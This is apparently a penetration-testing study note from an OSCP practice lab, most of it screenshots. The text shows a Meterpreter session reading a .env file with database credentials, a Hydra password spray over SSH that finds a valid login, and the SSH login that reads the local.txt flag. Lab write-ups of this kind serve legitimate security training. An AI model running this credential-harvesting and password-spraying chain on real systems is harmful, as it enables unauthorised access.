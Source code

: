 
![[Pasted image 20250814125010.png]]![[Pasted image 20250814125209.png]]![[Pasted image 20250814125921.png]]![[Pasted image 20250814130705.png]]![[Pasted image 20250814131122.png]]![[Pasted image 20250814131251.png]]![[Pasted image 20250814131725.png]]
meterpreter > cd .env
[-] stdapi_fs_chdir: Operation failed: 1
meterpreter > type .env
[-] Unknown command: type. Run the help command for more details.
meterpreter > cat .env
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=development
DB_USERNAME=web_admin
DB_PASSWORD=1amD3vM@ch1n3!
![[Pasted image 20250814134015.png]]![[Pasted image 20250814140213.png]]![[Pasted image 20250814140235.png]]hydra -L user.txt -p 1amD3vM@ch1n3! ssh://192.168.107.112
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-14 04:29:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:17/p:1), ~2 tries per task
[DATA] attacking ssh://192.168.107.112:22/
[22][ssh] host: 192.168.107.112   login: gari   password: 1amD3vM@ch1n3!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-14 04:29:53

┌──(kali㉿kali)-[~/oscp/mac_oscp]
└─$ ssh gari@192.168.107.112
gari@192.168.107.112's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug 14 08:29:49 AM UTC 2025

  System load:  0.080078125        Processes:               341
  Usage of /:   43.8% of 18.53GB   Users logged in:         1
  Memory usage: 23%                IPv4 address for ens192: 192.168.107.112
  Swap usage:   0%


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.                                                                                                                                                                                                       
                                                                                                                                                                                                                                            
Enable ESM Apps to receive additional future security updates.                                                                                                                                                                              
See https://ubuntu.com/esm or run: sudo pro status                                                                                                                                                                                          

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Aug 14 08:03:04 2025 from 192.168.49.107
gari@oscp:~$ ls
local.txt
gari@oscp:~$ whoami && hostname && ifconfig && type local.txt
gari
oscp
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.107.112  netmask 255.255.255.0  broadcast 192.168.107.255
        ether 00:50:56:8a:fd:2a  txqueuelen 1000  (Ethernet)
        RX packets 745964  bytes 112475786 (112.4 MB)
        RX errors 0  dropped 768  overruns 0  frame 0
        TX packets 747426  bytes 331081261 (331.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 214  bytes 20619 (20.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 214  bytes 20619 (20.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

-bash: type: local.txt: not found
gari@oscp:~$ ls
local.txt
gari@oscp:~$ whoami && hostname && ifconfig && cat local.txt
gari
oscp
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.107.112  netmask 255.255.255.0  broadcast 192.168.107.255
        ether 00:50:56:8a:fd:2a  txqueuelen 1000  (Ethernet)
        RX packets 746028  bytes 112480932 (112.4 MB)
        RX errors 0  dropped 770  overruns 0  frame 0
        TX packets 747462  bytes 331087069 (331.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 214  bytes 20619 (20.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 214  bytes 20619 (20.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ee1e0e53efc72d624d8644e58e386520
![[Pasted image 20250814145039.png]]![[Pasted image 20250814150908.png]]